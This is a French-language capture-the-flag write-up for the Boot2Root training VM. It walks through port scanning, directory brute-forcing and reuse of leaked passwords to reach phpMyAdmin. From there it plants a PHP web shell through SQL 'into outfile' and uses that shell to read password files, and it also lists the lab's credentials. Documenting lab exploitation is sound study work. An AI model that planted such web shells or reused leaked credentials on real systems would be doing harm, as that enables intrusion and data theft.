  ```
 ____              _   ___  _____             _   
 |  _ \            | | |__ \|  __ \           | |  
 | |_) | ___   ___ | |_   ) | |__) |___   ___ | |_ 
 |  _ < / _ \ / _ \| __| / /|  _  // _ \ / _ \| __|
 | |_) | (_) | (_) | |_ / /_| | \ \ (_) | (_) | |_ 
 |____/ \___/ \___/ \__|____|_|  \_\___/ \___/ \__|
 ```
 
After the setup we are presented with 

![BorntoSec](https://github.com/Ziltoid42/Boot2Root_42/blob/master/bonus/setup.png)



-----------------------------------------------------------------------------------

## Information gathering

The first step is to understand what we can gain access to and where is it located.

* First step is to find the ip of the VM by using ifconfig 
ifconfig should display a range of IP for the vm between 1 and 255

* Second step is to use ***nmap*** in order to uncover wich ports are open 
execute: ```nmap <IP>.1-255```

--> This should give back the precise IP and the open ports.
80 should be open and accessible Through a web browser
It is a Wordpress

--------------------


Avec nmap on recupere les ports, il y a un http et un https sur l'adresse IP 192.168.99.100

On recupere un script appelle DIRB qui a partir d'un dictionnaire teste la presence d'elements dans l'arboressence.
https://sourceforge.net/projects/dirb/i


En testant ./dirb https://192.168.99.100/ wordlists/common.txt -w

on se rend compte qu'il y a :
un forum auquel on peut acceder par navigateur
un webmail https://192.168.99.100/webmail/src/login.php
un phpmyadmin


Il y a un lien qui liste les users https://192.168.99.100/forum/index.php?mode=user

lmezard a un seul poste dans : "Probleme login ?"

dans probleme login il y a une entree etrange --> Failed password for invalid user !q\]Ej?*5K5cy*AJ from
On vois quil existe un user "root"
il y a aussi un "Oct 5 14:54:29 BornToSecHackMe sudo: admin : TTY=pts/0 ; PWD=/home/admin ; USER=root ; COMMAND=/bin/sh" ?

Si on essaie !q\]Ej?*5K5cy*AJ en password pour lmezard ca passe.
on peut recuperer son mail --> laurie@borntosec.net

On va le tenter dans le webmail avec le meme password et ca passe ouuuuuh!!!!

IL Y A UN MESSAGE DB ACCESS !!!

-->
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
-->
Bouyaaa !!!

il y a aussi les mails de
ft_root@mail.borntosec.net
qudevide@mail.borntosec.net

En magouillant un peu sur le login de phpmyadmin
login: root
pass: Fg-'kKXBj87E:aJ$

CA PASSE

On suis ce tuto :http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2

Ils nous donnent:
select “<? System($_REQUEST[‘cmd’]); ?>” into outfile “/cmd.php”;

Cela permet d'inserer un shell basique qui prend des commandes via url, mais il faut trouver ou le placer

Vue que c'est un site web il sera en  /var/www/html/

en tentant les differents sous dossiers de dossier de forum (obtenus via DIRB)
on arrive finalement a placer dans template_c

SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";

A partir de la on peux lancer des commandes via le navigateur, notament ls pour comprendre l'arborecense

https://192.168.99.100/forum/templates_c/cmd.php?cmd=ls%20../../../../home

https://192.168.99.100/forum/templates_c/cmd.php?cmd=cat%20../../../../home/LOOKATME/password
Montre un dossier LOOKATME avec dedans un Login/Password :
lmezard:G!@M6f4Eatau{sF"

en se connectant en ftp on peut entrer ce password et acceder a un README : "Complete this little challenge and use the result as password for user 'laurie' to login in ssh"

et a un fichier fun

Ce fichier fun contiens des instructions:




Password SSH de Laurie

laurie / 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

